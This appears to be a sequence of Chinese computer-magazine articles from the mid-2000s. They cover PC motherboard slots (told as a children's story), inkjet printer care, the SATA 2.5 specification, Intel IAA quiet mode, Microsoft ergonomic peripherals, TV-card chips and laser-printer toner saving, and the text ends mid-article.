光球又一次称赞了小强的聪明：“没错，内存插槽又分为SDRAM, DDR, DDR2插槽，不同的插槽只能插相应的内存，这点和CPU的道理是一样的，不过你爸爸是整机购买，所以自己也不需要考虑了。”

“我们为什么要用这些不同的内存呢？你跟我说过，内存只是存储‘仓库’啊，不是体积够大就可以了么？”

“那当然不是了，我们不但要求‘仓库’体积大，更加要求仓库的‘门’要大，也就是说里外运输‘货物’的速度和效率更高。在几年前，SDRAM是市面主流，但是随着‘公路’上货物越来越多，SDRAM这个仓库的大门无法快速装卸货物，于是出现了DDR内存，它的‘门’比SDRAM更大，到了现在DDR也支撑不了多久了，于是又出现了DDR2，所以为了追求高效率高性能，我们就需要用不同的内存了。”

“这两组内存插槽分成两种不同的颜色，应该是有特别的安排吧？”

“那是双通道内存的特点，所谓双通道就是相当于在你的仓库上多开一个大门，两扇门同时工作，肯定要比一扇门快，要使用双通道内存的模式必须将两条同样容量、同样速度的内存插在同样颜色的内存插槽里面才行哦！如果你只有一条或者三条内存条，那么你无法为仓库多开一扇门了。”



# 主板：我拥有一颗接纳的心

小强远离了内存和CPU，来到一堆白色的插槽前面，和前面的插槽不同的是，这堆白色插槽总共有5条，都是平行排列的，其中一条上面还插着一个绿绿的“卡”，他突然叫了起来：“这些东西我知道，爸爸曾经说过是PCI插槽！”

“没错，这些就是PCI插槽(见图6)，除了现在上面的那块网卡，我们平时用声卡之类的外部设备，只要是采用PCI接口的，就必须插上去才能够使用。你来看看这个，”光球此时飘到了一个和PCI差不多，只是稍长一点的插槽前面，“这是最新的PCI插槽，叫做PCI-Express, 简称PCI-E。”



“PCI插槽也有不同？为什么我们要用PCI-E这种插槽啊？”

“这个问题和内存差不多，PCI作为一种连接‘原料加工厂’和‘处理器’之间的通道，现在已经无法承受大量的‘信息流’车龙了，经常会造成塞车，让电脑的性能打折，因此我们就要把这条公路拓宽，可以同时容纳更多的‘信息流’，这样电脑的性能就会更加强了。目前PCI-E主要应用在显示卡上面呢。”

“显示卡我知道！就是把电影和好看的图片都显示到屏幕上面的东西！但是我记得爸爸说过显示卡都是AGP接口的，有什么AGP 1X, 4X, 8X……”

“嗯，但是AGP已经不能应付流量如此大的车龙了，因此越来越多新型显示卡采用PCI-E接口(见图7)，而且PCI-E和AGP一样也有了多种速度，从1X到16X，数字越大性能越高，下次让爸爸帮你升级显示卡的时候一定要提醒他，看准了接口才买哦！”

“咦？这个是什么东西？”小强来到了两个四周用坚硬的塑料包围起来的“插座”前面，和别的插座插槽不同的是，这里面是数十根尖尖的“针”。

“这是IDE接口(见图8)，专门连接IDE设备，也就是软驱，硬盘，光驱这些东西……”





听见光球欲言又止，聪明的小强立刻叫了起来：“哈哈，你要告诉我，IDE接口也有不同的型号？是不是IDE-E，或者IDE 8X啊？”

“嗯，IDE虽然没有别的型号，但是现在出现了一种新的接口，让我们可以不需要通过IDE来连接硬盘，那就是SATA和SATA2”

“SATA？SATA2，和爸爸说过的ATA 100和133一样的吗？”

“嗯，ATA 100/133说的就是硬盘的传输速率的规格，也就是说它们最多能够每秒传输100/133Mb数据。但是现在电脑的数据越来越多，因此出现了SATA模式，它最多能够每秒传输150Mb的数据，SATA2(见图9)就更加厉害了，每秒最多能够传输300Mb数据，更加有多种实用功能，所以现在越来越多的人采用SATA2接口的主板和硬盘！”



“这么说我不但要有SATA2接口的主板，还要SATA2的硬盘才可以用上这样的高速度了？”

“没错！”

不知不觉，小强在各种插槽，芯片，电容之间转了一个大圈，看着各种设备井井有条地连接在主板上，俨然一个电脑“大家庭”，心里面的疑问更加多了：“神仙爷爷，你能够带我进去看看别的电脑硬件吗？我还想知道更多呢！”

“呵呵，果然是个好学的孩子，好，我满足你的要求，不过今天的时间已经到了，你得回去休息了，等你休息好了之后，心里面呼唤我，我就会出来，带你游历你想去的电脑世界！”

“好啊！我们一言为定！”

（广东 水水）

## 谈谈喷墨打印机的合理使用

喷墨打印机因其打印效果好、噪音低而日益成为家用打印机的首选对象。下面介绍一些在日常使用和维护喷墨打印机过程中应注意的事项。

- 确保使用环境的清洁。使用环境灰尘太多，容易导致字车导轴润滑不好，使打印头的运动在打印过程中受阻，引起打印位置不准确或撞击机械框架造成死机。有时，这种死机是因为打印头未回到初始位置而产生的，在重新开机时，打印机首先让打印头回到初始位置，接着将进行清洗打印头操作，所以造成墨水不必要的浪费。解决这个问题的方法是经常将导轴上的灰尘擦掉，并对导轴进行润滑（选用流动性较好的润滑油，如缝纫机油）。
- 必须确保打印机在一个稳固的水平面上工作，不要在打印机顶端放置任何物品。打印机在打印时必须关闭其前盖，以防止灰尘或其他坚硬的物品进入机内阻碍打印机小车的运动，引起不必要的故障。如果同时打开两个墨盒（一个黑色墨盒，一个彩色墨盒）应把其中一个墨盒放入随机所赠的墨盒匣里。禁止带电插拔打印电线，这样会损坏打印机的打印口以及PC的并行口，严重的甚至会击穿PC的主板。如果打印输出不太清晰，有条纹或其他缺陷，可用打印机的自动清洗功能清洗喷头，但需要消耗少量墨水。若连续清洗几次之后打印仍不满意，这时可能是喷头堵塞又或者是墨水已经用尽，需要维修或更换墨盒。
- 墨水用完后，要及时更换墨盒或加注墨水。一定要用相同型号的墨水，否则极易导致打印头堵塞。

### 小技巧

#### 只用兼容 减少堵头

对于打印头和墨盒分离的机型（爱普生和佳能都有），如果打算长期使用兼容墨水，那么在新机器买回来之初就不要用原装墨水。也就是说，从一开始就使用兼容墨水。这样，墨头和供墨管道里面就不会残留原装的墨水，从而使不同墨水之间发生化学反应导致“堵头”的问题少发生。

- 墨盒未使用完时，最好不要取下，以免造成墨水浪费或打印机对墨水的计量失误。
- 关机前，让打印头回到初始位置（打印机在暂停状态下，打印头自动回到初始位置）。有些打印机在关机前自动将打印头移到初始位置，有些打印机必须在关机确认处在暂停状态（即暂停灯或PAUSE灯亮）才可关机。这样做一是避免下次开机时打印机重新进行清洗打印头操作浪费墨水；二是因为打印头在初始位置可受到保护罩的密封，使喷头不易堵塞。
- 部分打印机在初始位置处于机械锁定。此时如果用手移动打印头，将不能使之离开初始位置。注意不要强行用力移动打印头，否则将造成打印机机械部分的损坏。
- 换墨盒时一定要按照操作手册中的步骤进行，特别注意要在电源打开的状态下进行上述操作。因为重新更换墨盒后，打印机将对墨水输送系统进行充墨，而这一过程在关机状态下将无法进行，打印机无法检测到重新安装上的墨盒。另外，有些打印机对墨水容量的计量是使用打印机内部的电子计数器来计数的（特别是在对彩色墨水使用量的统计上），当该计数器达到一定值时，打印机判断墨水用尽。而在墨盒更换过程中，打印机将对其内部的电子计数器进行复位，从而确认安装了新的墨盒。
- 墨盒在长期不使用时应置于室温下避免日光直射。
- 在插拔打印机电源线及打印电缆时一定要在关闭打印机电源的情况下进行。
- 打印时纸张的幅面大小一定要定好。如果打印纸张比设置的纸张小，则可能打印喷墨到底板上，这时可用干净的擦拭；对于大幅面文件，只能采用“缩小打印”的功能实现打印输出。
- 有些打印机的操作面板有很多选择键，但这些键的设定并不完全起作用，这是因为用户使用的软件和面板的设定不同，一般软件的设定总是优先于面板的设定，最好使面板的设定和软件的设定统一起来。
- 在每次打开喷墨打印机后，电源指示灯或联机指示灯闪烁，表示打印机正在预热，这时你不要急于操作，要等预热结束、指示灯不再闪烁才可操作。有些喷墨打印机预热时间稍长一些，要耐心等待。
- 为了节约墨水，打印初稿或对打印质量要求不高的情况下，尽量使用低密度或省墨水的方式打印；清洗打印头也消耗墨水，由此仅在打印质量有问题时才需清洗打印头。
- 喷墨墨水具有导电性，若漏洒在电路板上应使用无水酒精擦净、晾干后再通电，否则将损坏电路元件。
- 不得带电拆卸喷头，不要将喷头置于易产生静电的地方，拿取喷头时应把持其金属部位，以免因静电造成喷头内部电路损坏。
- 不可用嘴直接向喷头内或其他墨水管路内吹气，以防唾液污染管路内部而影响墨水畅通。

（白山市 惠恩刚 投稿）

## 一统天下！SATA2.5 技术前瞻

繁忙的广州，每天早上坐公车上班都要堵上十来分钟，如果路可以扩宽2倍或更大的话，我就可以很快地回到公司了；我们的计算机系统运行时，数据流量之大也如早上上班时间的公路一样，硬盘数据传输（特别是PATA）也会时有发生“塞车”现象，出现等上一分钟的“幻灯片”时间，如果我们的硬盘数据带宽是当前系统的N倍，那还用担心“塞车”和“幻灯片”时间吗？

SATA（Serial ATA）硬盘的出现可以说是缓和了“塞车”问题，理论上SATA传输线的传输速度比PATA要快了近30倍。人类对速度的追求永无止境，就在SATA1.0出现不久，更多、更高级的SATA规范开始主演着硬盘一次又一次的革命。然而，SATA1.0、SATA1.0A、SATA2目前正并存于市面上，实在是混乱！

终于，今年8月25号，在IDF2005（Intel Developer Forum）上，The Serial ATA International Organization（SATA-IO）公布了2.5版Serial ATA规范，新的SATA 2.5规范是7个规范的综合，集成为一，目标显然更多是针对系统集成商而不是最终用户。这7个规范包括了SATA 1.0a规范和6个前SATA 2.0扩展规范，如今这些的总和称为SATA 2.5。如此一来，就清晰很多了。

### 小知识

#### SATA 历史回顾

SATA是由Intel公司于2000年发起，是为了取代PATA接口硬盘而开发的新型硬盘接口技术，SATA 1.0即第一个正式版于2001年正式确立，而SATA 1.0a是对SATA 1.0的微小修改，改正了一些问题，也可以说是SATA1.0的终结。2002年初SerialATA委员会又公布了第二个正式版的Serial ATA串行标准。

#### SATA 技术特征表

| 技术特征 | SATA1.0 | SATA2.0 |
| :--- | :--- | :--- |
| 近似速度 | 1.5Gb/s（150MB/s） | 3.0Gb/s（300MB/s） |
| 推出日期 | 2001年年中 | 2004年年中 |
| 连接电缆 | 0～1米 | 0～1米 |

接口组件如下图：

（a）设备端信号连接器；（b）四针电源连接器；
（c）信号线连接插座，与（a）配对；（d）电源连接插座，与（b）配对；
（e）信号线连接插座，与（f）配对；（f）主机上的信号连接器；
（g）主机上的连接器插座，连接与设备（a）和（b）连接

### SATA 到底有多好？

作为当前最主流的硬盘连接规范，SATA相对PATA来说，优点相当突出。首先，串行ATA的数据传输率比并行ATA高。最明显的一点，在SATA1.0中就能达到150MB/s的突发数据传输率，比最快的并行ATA标准ATA/133所能提供的最高数据传输率还略高一筹。而从Serial ATA的发展趋势来看，串行ATA的速度将是150MB/s的N倍。如此一来，硬盘将不再是系统性能的瓶颈了。

其次，SATA的连接比PATA要简单，拓展性也比PATA要好。在SATA标准中，只需要四根针脚就能够完成所有工作，第1针供电，第2针接地，第3针作为数据发送端，第4针充当数据接收端。另外，由于Serial ATA使用这样的点对点传输协议，所以不存在主/从问题，并且每个驱动器是独享数据带宽。因此，用户不再需要设置硬盘的主从跳线；系统也将不再受限于单通道只能连接两块硬盘。

再者，在数据连接的物理构造方面，PATA电缆很宽，不利于机箱内空气流动，而且最长只能到45厘米，而SATA电缆很细，装在机箱里令人感到舒服，最长能到1米。而且，SATA还支持热插拔，PATA则不能。

### SATA2.5 技术看点多多

SATA 2.5 规范是7个规范的综合，包括了SATA 1.0a规范和6个前SATA 2.0扩展规范。其中SATA 2.0的6个规范分别是：3Gb/s、NCQ、Staggered Spin-up、Hot Plug、Port Multiplier及eSATA。

#### 1. 3Gb/s 传输

300MB/s的外部接口传输速率，即最初版本SATA的150MB/s的两倍。这个速度是SATA设备和控制器点对点的连接速度，也就是说两者之间的通信以300MB/s为速度上限。3Gb/s特性不能给现有的ATA硬盘驱动器带来什么帮助，设备和控制器之间握手速率的提升仅仅能在改进了硬盘缓存效率之后让突发传输速率突破150MB/s而已，这可能让硬盘在某些情况下比同等SATA150硬盘快上1/10秒，也许还不到1/10秒。

#### 2. NCQ（原生命令排序）

NCQ 可以排列硬盘所接收到的指令以改进性能。具体来说是将所接收到的指令以某种顺序进行重新排序，排序的目的在于让磁头能集中寻址，减少磁头不必要的来回寻址以缩短整体用时，当遇到大量随时寻址的操作时，通过硬盘的微处理器，他们会被标记然后重新排序。这样是为了减少硬盘寻找数据头的时间。

#### 3. Hot Plug（热插拔）

热插拔，也称 Hot Swap。在 PATA 时代，ATA 硬盘本身不具备这样的功能，插针接口的物理特性本身限制了热插拔操作的可能。而 SATA 一开始就设计成支持热插拔，无论是控制器等部分，还是物理接口都在为支持热插拔而特别设计。

最明显的是 SATA 的弹片式接口，长短不一的数据/电力接口触点保证硬盘和主机/电力脱离的瞬间保持接地，来保护硬盘控制电路以及主机部分免受击穿。不过，目前 SATA 热插拔还局限于机箱内部，要在一台运行中的计算机机箱内热插拔 SATA 硬盘是一件复杂、麻烦及不必要的事。而 USB 接口的移动硬盘、优盘等，在方便性方面相对更具优势。

#### 4. Port Multiplier（端口复用技术）

Port Multiplier 的作用是一个活动主机连接多路复用至多个设备连接，实现以通道的形式和单独的每个硬盘通讯，即每个 SATA 硬盘都独占一个传输通道，所以不存在像并行 ATA 那样的主/从控制的问题。其形式就像是网络中的交换机，实现局域网内每台 PC 独占一条网线。其实，Port Multiplier 本身就是星形拓扑架构的体现，对网络技术有了解的朋友就会明白星形比总线拓扑更为优秀。不过，由于 ATA 的定位及软件（包括指令集）功能所限，Port Multiplier 只可以算是一个初级的星形拓扑，极其量也只是一个 SATA 的 HUB，而且不支持级联。尽管如此，相对于 PATA（初级总线拓扑）来说，SATA 的 Port Multiplier 已经是一个大突破，也相当的实用。

一个可以连接多个 SATA 硬盘的插座

#### 5. eSATA（外部 SATA）

eSATA 是希捷（Seagate）公司推出的外部 SATA 规格接口，一种扩展 SATA-2 接口，它是用来连接外部而不是内部 SATA 设备。eSATA 在实际应用时，数据传输率高达 150MBps - 300MBps，而且为外部设备的使用提供了更佳的保护措施。SATA 的数据线是一条大约 1cm 宽的扁平线缆，而 eSATA 的数据线则是由两条圆线缆并排粘合在一起构成的，外面还包着坚固的外皮。这种新接口可以提供 USB2.0 接口的 5 倍速度，并且具有 SATA-2 的所有新增功能。

#### 6. Staggered Spin-up（交错启动）

交错启动模式（Staggered Spin-up）功能，该项交错启动功能可使主机于多重硬盘装置中启动个别的硬盘。这一模式可减少系统启动时所消耗的电源，并让系统设计减少电源供应，以及减低终端用户的拥有成本（TCO）。新款硬盘同时也具备错误侦测码（Error Correction Code，ECC）功能，可在硬盘运行期间确保用户数据安全。

目前，市面绝大部分 PC 系统以及零售的主板上都没有配置标准的外部 SATA 接口；市场上几乎买不到提供 SATA 外部接口的移动存储装置；如果 SATA 硬盘直接应用在外部，它缺少方便的电力连接装置并且本身也缺乏有效的保护，脆弱的 PCB 完全暴露在外面。静电、震动往往会使一个硬盘从此停止工作。看来，外置 SATA 硬盘的装置在不久之后将会出现在市面上，那时，大家就可以享受 5 倍 USB2.0 的外接数据传输速度了。

综上所述，SATA2.5 仅仅是一个对目前混乱的 SATA 的规范作了一个统一，从此，我们不再需要申明什么什么 SATA II、什么什么二代 SATA 等了。一个 SATA2.5 一统天下，不过，这仅仅是一个官方给出的名字而已，在性能方面，SATA2.5 相对 SATA2.0 并没有实质性的提升。想得到更快，更稳定，更完善的 SATA，我们还需依赖硬盘研发商的努力了。

（广东 001pc.com 投稿）

## 让硬盘静音运行无需如此麻烦

看了第 18 期的《硬盘应该怎么用？要性能，还是要寿命？》后，受益匪浅。但是里面介绍的调整硬盘参数的方法有点麻烦，要下载软件，还要做成启动盘，并且还是英文界面。但这些对于使用 Intel 芯片组主板的朋友来说，其实无须如此。只要你安装了英特尔专门为其芯片组开发的 Intel Application Accelerator（简称 IAA，可到网站：驱动之家 www.mydrivers.com 上下载，主板驱动盘里也有），在里面就可以实现类似功能。

### 具体操作如下：

点击“开始→所有程序→Intel Application Accelerator→Intel Application Accelerator”运行 IAA 程序，点击“基本通道”的“主导设备”，在右侧的“参数”中双击“自动声音管理”，然后选择“最小声音输出”即可。

### 小提示

#### 什么是 IAA？

英特尔南桥芯片组 Intel Application Accelerator 应用程序加速器驱动是英特尔早在 2001 年首次推出的，它能够支持 ICH、ICH0、ICH2、ICH3、ICH4 等南桥芯片组，用于替代先前的 Ultra ATA 驱动，并发挥系统的最佳性能。到了 ICH5R 发布之后，英特尔就将应用程序加速器升级为 Application Accelerator RAID 版，版本也随即更新为 3.X 版，此时的加速器程序已经是集创建和管理 RAID 磁盘阵列，并使磁盘性能达到最佳化等功能于一身。

#### 为什么我的电脑不能安装 IAA？

出现这种问题的原因，多数是你的主板所采用的芯片组不支持 IAA 应用程序造成的，由于这是设计问题，所以是没有办法解决的。英特尔对 ICH5 南桥芯片并未提供任何加速程序，原因在于 ICH5 芯片 82801EB 提供了两种硬盘接口模式，包括并行 ATA（P-ATA）及串行 ATA（S-ATA）两种模式，而单一的加速程序仅能够支持 P-ATA 加速，由于无法分辨用户在使用中是使用何种硬盘，可能会造成加速错误，最终导致出现问题，所以英特尔在最终并未提供加速程序，仅提供了 ICH5-R 芯片 82801ER 南桥的 RAID 版本加速程序，此版本可以在英特尔的 SUPPORT 网页上找到，也注明了专为 ICH5-R 南桥设计及使用！

编者注：要用 IAA 开启硬盘的静音模式，硬盘本身就要支持“自动噪音控制”功能。如何得知你的硬盘是否支持该功能呢？用“HD Tune2.10”硬盘实用程序检查一下即可得知。

（张司艺 投稿）

在九月初，微软召开了盛大的发布会，一口气推出了麾下的九款键盘鼠标新品，从游戏鼠标、办公鼠标/键盘到无线鼠标/键盘样样俱全，除了强大的硬件性能之外，在这九种新品之中都不约而同地采用了最新的人体工程学设计，让业界的目光一下子又注视到被忽视了很久的人体工程技术上。下面我们就来看看，微软的这些新鼠标和键盘有什么过人之处，人体工程学又有什么奥妙！

## 人体工程学：为你的舒适而生

### 从了解微软新键盘鼠标开始

- 键盘：绝对的放松与自然

本次发布的九款硬件新品中，包括了两款键盘新品，分别是微软舒适曲线键盘 2000（Comfort Curve Keyboard 2000）和微软人体工学键盘 4000（Natural Ergonomic Keyboard 4000）。其中的明星当数微软人体工学键盘 4000 了。在它身上我们可以找到多个为了人体放松和自然而特别设计的部位：手和键盘的夹角：一般我们在使用键盘录入信息时往往会保持双手内倾的姿势，手与键盘之间的夹角约为 45 度，长时间工作之后会产生不舒适感，而微软的这款键盘改良了按键分区与排列，使用户的双手和双臂时刻处于极自然和舒适的位置。左右键区 14 度的分列式扇形布局能够最大限度地我们在操作过程中的手腕疲劳，而自然的弓形仿生学曲线则让手指在按键时移动的距离极其微小。按键和键区设计：微软人体工学键盘 4000 地按键和键区设计都是经过优化的。其中键区的分隔和曲线按键排列让用户的前臂、腕部和手掌施力更少，此外按键底托的曲线让手指在按键时更感轻松，让用户体尝到更好的操作手感。智能缩放滑块和自定义键也可以减少我们平时操作的强度，提高工作效率。

- 鼠标：舒适与功能齐备

在九款新品有六款鼠标新品（还有一个键鼠套装），可见微软在鼠标设计方面下的苦功了，而这六款新品鼠标之中，人体工学技术运用的出神入化的又数无线迅雷鲨 6000 和暴雷鲨 6000 了。

#### 无线迅雷鲨：轻巧舒适的人体工学

迅雷鲨最大的特点就是小巧，适合笔记本电脑的用户随身携带。为了让我们的操作更加舒适，鼠标两侧采用软橡胶材质，舒适柔软，并设计出手指凹槽，掌握起来更加舒适自然，只要轻轻一握就可“胜券在握”。高解析度精光定位技术也令鼠标的移动距离大大减少，从另外一方面降低我们手腕的负担。

#### 暴雷鲨：左右开弓更舒服

作为一款游戏专用鼠标，暴雷鲨 6000 充分考虑到激烈的游戏可能给人体带来的疲劳，而且鼠标也是游戏过程中接触次数最多、也是接触时间最长的外设产品，因此在设计上采用了独到的理念。暴雷鲨最大的特点就是造型独特，同时适用于左右手，用户## 人体工程学让我们工作得更舒适

看了微软的这几款融合了人体工程学的键盘、鼠标之后，相信不少朋友会问，什么是人体工程学呢？为什么现在越来越多的硬件要采用人体工程学设计呢？它会给我们带来些什么好处呢？下面我们一起来了解一下人体工程学：

人体工程学，是第二次世界大战后发展起来的一门新学科，其本质上就是使工具的使用方式尽量适合人体的自然形态，这样就可以使使用工具的人在工作时，身体和精神不需要任何主动适应，从而尽量减少使用工具造成的疲劳。在一段时间里面，科学家们为了解决在电脑使用过程中容易造成的人体各部位的疲劳而努力，力求让我们对电脑达到最佳的使用效率及免除生理机能伤害，因此人体工程学在电脑硬件行业，特别是输入系统（键盘，鼠标）方面发展得非常迅速，现在就连显示器也有了自己的人体工程学标准。

## 1. 人体工程学有什么好处

相信不少长年从事电脑操作的朋友都会在长时间工作之后感觉腰酸手疼，肩膀、手指酸软，根据权威医学机构统计，从事电脑行业的人患上颈椎炎等肌肉、骨骼疲劳性疾病的几率要比普通干活的工人多出好几倍！这就是为什么我们需要人体工程学的原因了。人体工程学可以让键盘，鼠标，显示器等我们操作电脑所必须使用的工具能够尽量适合人体自然形态。就拿键盘来说，平时我们习惯将双手放在中间敲打键盘，但是人体工程学的键盘就可以让我们双手舒适自然地放在身体两侧，就算工作时间再长，我们的双手和肩膀都会非常轻松的。同样，符合人体工程学的显示器能够让我们尽可能少受到电磁辐射，对健康的保护是不言而喻的。

## 2. 人体工程学键盘

键盘的外形有两种，分别是标准键盘和人体工程学键盘，人体工程学键盘是在标准键盘上将指法规定的左手键区和右手键区这两大板块左右分开，并形成一定角度，使操作者不必有意识的夹紧双臂，保持一种比较自然的形态，这种设计的键盘最早是由微软公司发明的，微软将这种键盘命名为自然键盘（Natural Keyboard），对于习惯盲打的用户而言这种键盘可以有效的减少左右手键区的误击率，如字母“G”和“H”。目前有的人体工程学键盘还有意加大常用键如空格键和回车键的面积，在键盘的下部增加护手托板，给以前悬空手腕以支持点，减少由于手腕长期悬空导致的疲劳等等。譬如我们前面介绍过的微软人体工学键盘4000就是这类型的人体工程学键盘。

## 3. 人体工程学鼠标

鼠标的外形一般都是长方体流线型的，人体工程学的鼠标就是通过改变鼠标外型的大小和曲线以及重量这几方面的设计，从而最大限度地满足人们使用鼠标时在手感以及舒适度和使用习惯方面的要求，最大限度地保护用户的身心健康进而提高用户的工作效率。说到人体工程学鼠标，同样不能不说一下微软，毕竟它早在1993年就推出全球第一款符合人体工程学的鼠标了。这次微软一口气发布了六款人体工程学的鼠标，让别人不得不承认它在人体工程学方面的深厚造诣。其中的主力产品无线迅雷鲨价格虽然只有599，但是和另一巨头罗技的产品比起来，性价比就显得很高了。

时至今日，电脑应用已经不仅是追求速度和效果，对人体健康的影响已经是显得越来越重要了。为了我们以后的健康，从今天开始，多花点钱，购置一些符合人体工程学的硬件，让我们工作和娱乐都舒舒服服，何乐而不为呢？（水月子）

## 从芯片看显卡的选购

电视卡即电视接收卡，它的作用是将有线和无线电视的信号转换为电脑识别的数字信号，通过相关的应用程序在电脑上播放出来。电视卡可让你用电脑来收看电视节目，当然，也可以连接、收看录像机、摄影机及所有模拟视频源传送出来的节目。另外，使用适当的软件我们还可以将影像和声音录制下来。现在，购买电视卡的用户相当的多，除了购买电视卡之外，还有一些用户选择了USB电视盒和VGA电视盒。

VGA电视盒只能接收电视节目，而不能将电视节目录制下来，当然也不具备视频采集的功能。USB电视盒由于是外置的，因此受机内干扰较少，其画面质量通常较高，不过受USB1.1的传输速度的影响，其在进行视频采集的时候，速度就成为了它最大的缺陷。但随着USB2.0电视盒的出现，采集速度的问题已经得以解决。内置电视卡的价格通常较为便宜，无须单独供电，与软件的配合非常好，可以进行电视节目的录制和视频信号的采集，因此，目前购买USB2.0电视盒和内置电视卡，在当前来说，无疑是明智的。

## 通过芯片来选购电视卡

芯片主要用于处理接收的电视信号，这也就是一种“解码”过程，所以它性能的好坏直接决定了电视卡的整体性能。目前，电视卡芯片主要有三家：科腾(Conexant)、飞利浦(Philips)和ATI，前两家在零售市场是主力军，ATI芯片则主要配合其显示芯片使用，由于它集成了高质量的视频编码器/解码器，并具有数字音频支持，所以颇受高端用户青睐。不过由于ATI电视芯片只能配合自己的显示芯片使用，所以它在市场上的份额比较小。

### 1. Conexant系列芯片

#### (1) BT8X8系列

Conexant是老牌视频芯片供应商，其早期的BT848芯片风行电视卡市场。BT848采用8-bits解码，支持最高分辨率只有640×480，这与后来出现的电视卡芯片相比已经略显落后。BT878为BT848的改进型，在收视频格式支持上比前者更为完整，型号也比较多。而BT878A(见图1)虽然在功能上和BT878相比没有任何加强，但是却增加了针对ATSC/DVB的MPEG2-Transport Stream的支持，因此这就使它具备了接收卫星电视/数字电视的功能。



BT8X8系列芯片最大的问题在于DMA Channel（直接内存访问）不足（只有1组），因此该芯片在实现“画中画”这样的功能时，便显得异常的困难，并且与之配合的硬件压缩芯片较少，因此BT8X8系列当前已经全面的退出历史舞台。在这里，笔者不建议大家在二手市场中去购买采用BT8X8系列芯片的电视卡，因为它们无论是技术还是画质上已经落伍，并且特别在驱动程序的开发上已经停止了脚步。

#### (2) Conexant CX2388X系列

CX2388X是基于BT878A开发而成的，是业内第一种10bits视频解决方案，同时也是第一种支持全球广播音频解码功能的产品，这一系列的芯片包括CX23880、CX23881（用于电视卡，见图2）和CX23882（通常用于电视盒）。



CX2388X通过10bits视频解码器捕捉各种不同的NTSC、PAL、SECAM标准视频信号加以译码，并透过双制式（NTSC/PAL）自适应梳状滤波器，从横向、纵向及对角方向将每组画面的亮度及色度信号清楚的区分（2D Y/C分离），从而有效的消除了信号中的杂波、斑点及色彩重叠现象，这样在提升画质方面颇有成效。此外，CX2388X芯片还有专门的高速MPEG接口与ATSC、DVB、ISDB等数字电视频道解调器相兼容，可以将视频信号先采集到硬盘后再进行播放。另外，它还可以实现全数字化的广播。

### 小知识：解码器的位数是怎么回事？

由于一般的电视信号是模拟信号，而电视卡/盒的解码芯片在对视频信号进行处理前需要进行一步模拟转换。这个步骤的处理直接关系到影像的品质。目前市场上有使用8/9/10bits取样方式进行ADC的。

理论上是取样越多效果越理想，不过取样的方式对产生的结果会有很大的影响，而且人眼所分辨的画面细微差异有限。因此取样太多，并不见得能有很大的影响。一般来说，9bits的取样比8bits的差异有一倍。因此画面的真实度和清晰度更贴近原来画面。但10bits和9bits的取样，从人眼的分辨能力来说，没有什么太大的变化，而此时取样的技术高低就成了画质的关键。

#### (3) Conexant CX23416

CX23416是一块负责进行视频硬件压缩的芯片（见图3），其仅出现在支持MPEG2硬件压缩的电视卡或电视盒中。其完全支持MPEG-2和MPEG-1的硬压转录，可支持CBR/VBR两种码流。由于内置硬件数码帧间过滤降噪器，并可实施2级降噪，因此其压缩出来的图像质量显得更为的清晰和细腻。它在进行MPEG-2的音、视频压缩时，最高可达15Mbps（1个小时的DV视频文件最快可在15min左右完成）。另外，它还具备有自动帧/场运动检测和智能场景转换检测等功能，从而可以始终恒定画面质量来进行压缩。



### 2. Philips系列芯片

Philips公司是一家极有名气的视频芯片供应商，其后来居上的气势已经逐渐取代了Conexant系列芯片，成为当前市场上应用最多的电视卡芯片。

#### (1) Philips SAA713X系列

Philips SAA713X系列包括SAA7130、7133、7134、7135，共4款产品。

SAA713X芯片最大的特色是支持更高的分辨率，可以达到720×576，它们支持9 bit解码，色彩解析度要比8 bit解码的BT8X8系列芯片高一倍，从而有效的提升了画质。由于SAA713X系列芯片有7组DMA Channel可供调用，因此其足以支撑更大型的平行视讯资料的多重运用。

此外，SAA713X系列芯片具备更加完善的HDTV支持能力，它具备40Mbps的支持规格，足以搭配显示卡内建的解码线路做完整的HDTV产品支持设计。

在这4种芯片中，低端的SAA7130芯片对电视音频不作处理，只提供了一个到声卡的音频通道，这带来了一个问题，即在操作电脑时，电视音频会受到干扰，发出噪音。而SAA7133芯片则在SAA7130基础上增加了对NTSC制式电视音频丽音信号的解码处理（支持音频处理），并可支持NTSC制式的丽音。而SAA7134芯片则可以支持PAL制式的丽音信号。当前这个系列中最高端的SAA7135芯片（见图4）则实现了全制式视频音频解码，支持全部制式的丽音信号（并支持定向杜比逻辑解码）。

#### (2) Philips SAA711X和SAA7174HL

这两个系列的芯片主要用于电视盒，Philips SAA711X(见图5)用于早期的电视盒(与BT848A规格相当)，而当前较新的SAA7174HL芯片，由于具备有9bit精度AD和先进的3D梳状滤波器，因此可大大降低色彩串扰的问题，其利用高速逻辑电路来进行精确的动态Y/C分离，使图像清晰度和稳定性得到完美保证。



### 不可忽视的高频头

高频头充当着接收和调谐电视信号的作用，和电视效果有着直接的关系。绝大部分的电视盒(电视卡)使用的是模拟调谐高频头，但是现在也有些电视卡或电视盒已经使用先进的数字调谐高频头。

市场上的电视卡高频头产品一般有LG、Philips和我国的TCL等品牌。其中，飞利浦的高频头(见图6)频道搜索能力较强，但杂波略大，而LG的高频头(见图7)频道搜索能力稍差，有些频道需要微调，但抗干扰性比较好。TCL高频头比较接近LG，其电路板与LG相似。




高频头又叫硅调谐器(Silicon Tuner)，它用芯片代替了模拟调谐高频头的作用。如Philips的硅调谐器使用的就是TDA8290和TDA8275芯片(见图9)，其中TDA8275就是硅调谐器的主体，用来接收和调谐电视信号，而TDA8290是PAL-NTSC解调器。另外，市场上也有使用Microtune MT2050单芯片解决方案的产品，如Pinnacle PCTV Pro。可以这样理解，数字式的调谐高频头，其无论是在体积、功耗还是抗干扰性等方面都胜于传统的模拟式高频头。

为了改善电视信号接收效果，高频头厂商推出了数字调谐高频头(见图8)，数字调谐高频头在性能上有显著提升。



（王军）

## 释放打印机驱动程序的潜能

用户都知道驱动程序是硬件的“倍增器”，不过一般比较注意主板和显示卡等的驱动，很少有人注意用好、用足打印机驱动程序。本文以广泛应用的hp LaserJet 1150激光打印机为例，介绍充分释放打印机驱动程序潜能的方法。

### 1. 节约墨粉

一只hp LaserJet 1150激光打印机的Q2624A硒鼓售价五百元左右，如何延长它的使用寿命是用户关心的问题。只要研究一下hp LaserJet 1150激光打印机的驱动程序，很容易找到节约墨粉的方法：

由于许多文件的讨论稿不需要很高的打印质量，这类文档可以使用hp LaserJet 1150激光打印机驱动程序提供的“经济模式”。使用这种模式打印出来的文字颜色比较淡，但是能够满足非正式文件的阅读要求，使用“经济模式”打印文档的方法是：

